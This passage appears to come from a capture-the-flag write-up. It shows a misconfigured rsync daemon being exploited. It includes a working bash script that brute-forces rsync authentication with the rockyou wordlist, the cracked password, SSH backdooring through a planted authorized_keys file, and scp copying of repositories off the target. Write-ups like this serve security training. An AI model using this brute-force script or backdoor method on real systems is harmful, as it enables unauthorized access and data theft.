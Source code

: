 {{< figure src="https://cdn-images-1.medium.com/max/4372/1*3t0JUOt5LUvWLf7DiVRjpQ.png" width="800" caption="Dumped content of /etc" width="800" >}}

We have a quite a few potentially interesting files, let's first inspect the contents of rsync config file.

{{< figure src="https://cdn-images-1.medium.com/max/3380/1*8it4Gx4eDickRblzJPTfJQ.png" caption="rsyncd.conf insecure configuration makes **/etc** readable" width="800" >}}

{{< figure src="https://cdn-images-1.medium.com/max/2712/1*kXn7pdkdDMzYwbP4CaA_tg.png" caption="rsyncd.conf gives information about user **roy**" width="800" >}}

Now we know there is a hidden module home_roy which links to roy 's home directory. Except it requires user authentication to be able to perform any action with rsync . We cook up a quick and dirty brute-force script and hope to get a fast hit.

```sh
#!/bin/bash

HOST="dead:beef::250:56ff:feb9:6082"
PORT=8730
WORDLIST="/usr/share/wordlists/rockyou.txt"

bruteforce_liao() {
	while read line ; do
		export RSYNC_PASSWORD=$line;
		echo "[-] Trying $line"
		rsync -6 -av --recursive --no-motd rsync://roy@[$HOST]:$PORT/home_roy . 2>/dev/null;
		if [[ $? == 0 ]]; then
			echo "[+] Password found!";
			echo "[+] Recovering directory...";
			break
		else
			continue
		fi
	done < $WORDLIST
}
bruteforce_liao
```

*Note: when **rsync** runs in daemon mode, it is possible to use the rsync:// protocol format. This allows us to pass the password of the authentication attempt via the env var RSYNC_PASSWORD (all of this is refered in the manpage ).*

Password is computer

Great, now we can peak inside roy’s home directory. Even better, we have write access to it. This means we can backdoor the user by creating a .ssh directory with authorized_keys containing a pre-generated key from our host.

We can then SSH to roy using our SSH private key

{{< figure src="https://cdn-images-1.medium.com/max/3804/1*WCSUitf9naYfU61VBfYayw.png" caption="Connecting to our SSH backdoor" width="800" >}}

```
[*] fst150 Looking for GIT/SVN repositories................................ yes!
---
/etc/pure-ftpd/.git
/etc/nginx/.git
/etc/rsyslog.d/.git

# scp -i ../.ssh/id_rsa -r roy@10.10.10.156:/etc/rsyslog.d/.git .
```
